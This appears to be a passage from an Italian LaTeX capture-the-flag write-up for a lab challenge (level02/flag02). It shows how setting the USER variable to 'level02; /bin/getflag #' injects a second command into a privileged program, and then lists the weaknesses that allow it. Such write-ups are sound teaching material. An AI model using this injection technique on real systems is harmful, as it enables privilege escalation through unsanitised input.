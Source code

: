 \subsection{Idea per risolvere la sfida}
L’idea qui è quella di modificare \textbf{USER} in modo da modificare buffer.
In BASH è possibile concatenare due comandi con il carattere separatore \textcolor{red}{;} quindi: 
\begin{lstlisting}[style=bashstyle]
    echo comando1; echo comando 2
\end{lstlisting}
Impostiamo USER come segue: 
\begin{lstlisting}[style=bashstyle]
    USER='level02; /bin/getflag'
\end{lstlisting}
Se eseguiamo flag02 l’attacco fallisce perché dopo \textbf{/bin/echo level02; /bin/getflag} c’è la stringa \textbf{is cool}
Per evitare questo usiamo il \textcolor{red}{\#} per commentare. 
Quindi sovrascriviamo USER come segue:
\begin{lstlisting}[style=bashstyle]
    USER='level02; /bin/getflag #'
\end{lstlisting}

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    # Modifica variabile USER
    USER='level02; /bin/getflag #'
    # Esegui flag02
    /home/flag02/flag02
\end{lstlisting} 
Vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item privilegi di esecuzione ingiustamente elevati
    \item versione bash che non abbassa i privilegi di esecuzione
    \item non vengono neutralizzati i caratteri speciali
\end{itemize}

